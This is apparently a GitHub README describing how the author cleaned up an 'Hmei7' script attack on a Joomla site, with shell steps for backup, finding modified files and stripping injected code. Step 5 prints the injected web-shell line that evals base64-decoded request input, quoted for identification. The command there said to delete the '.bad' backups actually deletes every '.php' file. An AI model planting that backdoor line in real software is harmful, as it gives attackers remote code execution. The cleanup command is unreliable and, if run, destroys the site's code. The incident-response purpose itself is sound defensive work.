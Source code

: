 Hmei7-cleanup
=============

Background:
===========
I had to clean up after an HMEI7 script attack on a Joomla site this morning and 
figured I should share my efforts. The site owner did not have a recent backup, so
the decision was made to clean up the existing site.

The HMEI7 script is rather crude in its approach. It modified the index.php page 
and and replaced it with Base64 encoded version that containing another Base64 
encoded redirect to some external site. A good number of .PHP scripts were modified 
with additional lines of code that would prevent the site from working even after the 
index page was restored. I wrote a small script that tracked down the modified pages
and removed the unwanted code.

Clean up:
=========

0.	Backed up the existing files.

		tar cjf cms.tar.bz2 cms/

1. 	Identify the time of the attack. The script drops its signature into x.txt in the root 
	folder. The file contains "hacked by Hmei7". Noted the modification time of the file
   
2. 	Find all files that were modified since that time. In my case 2 days
 
 		find . -mtime -2 >modified_files.txt
	
	Copied that file per FTP to my laptop for later reference

3.	The attack script added number of new files. Removed all

		find . -name "index.old.php" -exec rm -f {} \;
		find . -name "index.1.php" -exec rm -f {} \;
		find . -name "class.back.php" -exec rm -f {} \;

4.  Cleared out the tmp folders

5.	Analyzed the modified file and found a pattern. The modified PHP files contained the 
	following additional code. It would be either on be on 1 line or on 3.
	
		<?PHP defined('_OLD_JEXEC_') or die(@eval(base64_decode($_REQUEST['comment']))); ?>

		<?PHP
		 defined('_OLD_JEXEC_') or die(@eval(base64_decode($_REQUEST['comment'])));
		?><?php...
		
	I wrote and ran the cleanup.py script to deal with those. The script creates back up
	copies of every file modified by adding the extension .bad to the file name. Once the 
	site is restored these can be deleted with
	
		find . -name "*.php" -exec rm -f {} \;
	
6.	Checked the .htaccess files

7.	Checked the configuration.php file

8.	Removed the x.txt file under root

9.	Copied the index.php back from backup and et voila the site was up again

10. Ran a quick grep tests to make sure I did not miss any files.


